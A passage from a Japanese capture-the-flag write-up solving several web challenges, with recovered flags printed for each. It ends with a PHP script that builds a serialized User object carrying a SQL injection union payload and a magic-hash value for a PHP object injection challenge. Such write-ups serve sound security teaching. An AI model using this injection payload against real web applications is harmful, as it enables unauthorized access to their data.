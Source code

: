 ```
User-agent: *
Disallow: /S3creT/Flag__File__.txt.flag
```

とありました。が、`/S3creT/Flag__File__.txt.flag` を見るには認証が必要なようです。

どうすればいいのか悩んでいましたが、[@hiww](https://twitter.com/hiww) さんが `web1.ctfsecurinets.com` に対してポートスキャンをかけて 9999 番ポートが開いていることが分かりました。

あとは http://web1.ctfsecurinets.com:9999/S3creT/Flag__File__.txt.flag にアクセスするとフラグが得られました。

```
tIU0BuuDO8q8Z8b1yVfl
```

## [Web 50] Initiation

与えられた URL にアクセスすると HTTP レスポンスヘッダに `flag: iiPBy0vcrZEqWiyWjhv2` とありました。

```
iiPBy0vcrZEqWiyWjhv2
```

## [Web 50] Criminals X Hunter

与えられた URL でゲームができるようです。`/killAction.php?idS=0&idD=1&xS=0&yS=0&xD=0&yD=0` を開いてすぐ `/getFlag.php` を開くとフラグが得られました。

```
H0w_D1d_Y0u_Th4T_1m_F45T3R_Th4N_Th3_L1GhT
```

## [Web 300] Web6

PHP Object Injection と SQLi と Magic Hash を使う問題でした。

```php
<?php
class User {
    public $id;
    public $name;
    public $pass;
    public $key;

    public function __construct() {
        $this->id   = '';
        $this->name = "' and 0 union select 1, 2, 3, '240610708';#";
        $this->pass = '';
        $this->key  = '';
    }

}
echo urlencode(serialize(new User));
```
